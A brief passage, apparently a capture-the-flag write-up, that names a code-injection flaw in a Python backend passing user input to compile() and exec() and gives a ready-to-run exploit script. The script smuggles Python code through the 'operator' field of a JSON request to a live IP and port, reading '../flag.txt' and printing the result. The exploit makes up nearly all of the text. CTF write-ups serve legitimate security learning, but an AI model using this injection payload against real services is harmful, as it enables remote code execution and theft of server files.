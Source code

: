 Unsanitized user input in Python backend using compile() -> exec().

```python
import requests
  
code = '\nresult = open("../flag.txt", "r").read();'
post_request = {"current_health": "0", "attack_power": "0", "operator": code}
  
session = requests.Session()
website = "http://142.93.39.188:30229/api/get_health"
  
r = session.post(website, json=post_request)
  
print(r.content.decode())
```